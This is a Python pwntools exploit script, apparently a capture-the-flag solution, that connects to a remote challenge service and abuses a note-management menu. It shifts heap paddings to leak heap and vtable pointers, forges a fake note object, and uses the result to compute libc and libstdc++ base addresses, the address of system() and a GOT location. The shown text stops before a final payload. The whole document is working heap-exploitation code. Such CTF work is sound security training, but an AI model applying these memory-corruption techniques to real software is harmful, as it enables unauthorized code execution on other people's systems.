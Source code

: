```python
    # p = process("./chall")
    p = remote("34.45.81.67", 16001)

    # pwndbg syntax
    # gdb.attach(p, gdbscript="""
    # bp main+0x41d
    # """)

    recv_menu(p)

    # create 6 dummy fixed
    for i in range(6):
        select(p, 1, 2)

    # dynamic
    select(p, 1, 3)

    select(p, 1, 3)

    # create another random book to realloc vector<Note*>
    select(p, 1, 3)

    # shift dynamic paddings to leak heap
    select(p, 5, -4)
    select(p, 5, -4)
    select(p, 5, -4)

    first_note_heap_ptr = leak_using_data(p, 5)

    print(f"first note on heap: {hex(first_note_heap_ptr)}")

    # allocate random
    for _ in range(10):
        select(p, 1, 2)

    # shift dynamic paddings to leak vtable address
    select(p, 5, -8)
    select(p, 5, -9)
    select(p, 5, -10)

    dynamic_vtable_ptr = leak_using_data(p, 1)
    print(f"dynamic note vtable ptr: {hex(dynamic_vtable_ptr)}")
    print(f"first note on heap: {hex(first_note_heap_ptr)}")

    # allocate dynamic note that will be used for faking another dynamic node
    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", dynamic_vtable_ptr+808) + pack("<Q", 0x300))

    # -51 to access the fake note inside the first note
    memmove = leak_using_data(p, -51)

    select(p, 3, 0, pack("<Q", dynamic_vtable_ptr) + pack("<Q", dynamic_vtable_ptr+776) + pack("<Q", 0x300))
    left_shift_std = leak_using_data(p, -51)

    libstd_base = left_shift_std - 0x157600
    libstd_got = libstd_base + 0x277030

    libc_base = memmove - 0x2A200
    system = libc_base + 0x58750
    print(f"libc_base: {hex(libc_base)}")
    print(f"libstd++_base: {hex(libstd_base)}")
    print(f"libstd got.plt: {hex(libstd_got)}")
```